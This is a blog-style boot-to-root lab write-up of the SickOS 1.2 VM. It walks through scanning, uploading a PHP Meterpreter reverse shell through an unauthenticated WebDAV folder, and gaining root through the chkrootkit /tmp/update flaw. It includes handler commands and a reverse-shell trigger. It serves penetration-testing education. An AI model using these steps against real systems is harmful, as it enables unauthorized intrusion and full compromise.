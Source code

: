 ```yaml
---
menu: "posts"
date: "2016-12-20T23:45:50-05:00"
title: "B2R: SickOSv1.2"
categories: [ "Boot2Root" ]
---
```




## Executive Summary
This machine had an unprotected folder which allowed uploading of malicious PHP code which could then be
executed remotely. An attacker could then create an unprivileged shell on the victim machine and begin to
explore the system for additional vulnerabilities which could lead to a full compromise. During the
exploration, an outdated version of `chkrootkit` was found. By exploiting a known vulnerability in the way
`chkrootkit` parses arguments, an attacker could create a malicious file that would later be run by
`chkrootkit` as a fully privileged user.

## Tools used
  - nmap - discovery
  - uniscan - web application scanner
  - metasploit - exploit framework
  - msfvenom - payload generation
  - local-linux-enum script - enumeration

## Proof of Concept

In order to cut down on typing, once the IP of the victim computer is discovered, it can be added to the
`/etc/hosts`.

~~~bash.prettyprint
echo "192.168.1.188 vm" >> /etc/hosts
~~~

We begin with scanning the victim's machine and find ports 80 and 22.

~~~bash.prettyprint
❯❯ nmap -p - -A vm | tee nmap.scan
~~~

![](https://i.imgur.com/jQr872J.png)


Navigating to the page and checking its source code reveals nothing

![](https://i.imgur.com/1Oigcfa.png)

Running `uniscan`, a folder named `test` is discovered

~~~bash.prettyprint
❯❯ uniscan -qweds -u http://vm/ 
~~~

![](https://i.imgur.com/wU5Wp2v.png)

The listing appeared to be empty but further examination of the `/test` path revealed that it responded to
more than just HTTP methods. `COPY` and `MOVE` seemed to indicate WebDAV.

~~~bash.prettyprint
❯❯ curl -vX OPTIONS vm/test
~~~

![](https://i.imgur.com/6GKZJbc.png)

This path requires no authentication and thus allows attackers to upload files to the web server. 

![](https://i.imgur.com/gSzuoHZ.png)


Verifying successful upload:

![](https://i.imgur.com/CpTqKyO.png)

Having uploaded the reverse shell, the Meterpreter handler is constructed

~~~bash.prettyprint
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 80
run -j
~~~

...and the payload is activated.

~~~bash.prettyprint
curl http://vm/test/sshhh.php
~~~


![](https://i.imgur.com/XQ3a9Q4.png)

Once a shell has been established on the system, an enumeration script reveals what additional
vulnerabilities might lead to a full compromise.


The installed version of `chkrootkit` is outdated and vulnerable to a code execution exploit.

![](https://i.imgur.com/EJSijYp.png)

The ExploitDB gives the following description:

![](https://i.imgur.com/uVIlbic.png)

Using Metasploit, we create another handler and payload, using the `chkrootkit` module. This module will
create/overwrite the `/tmp/update` file with the reverse tcp shell of your choosing. The next time
`chkrootkit` is run, this update file will connect back to the attacker computer designated in the payload.

![](https://i.imgur.com/9GKQfrW.png)
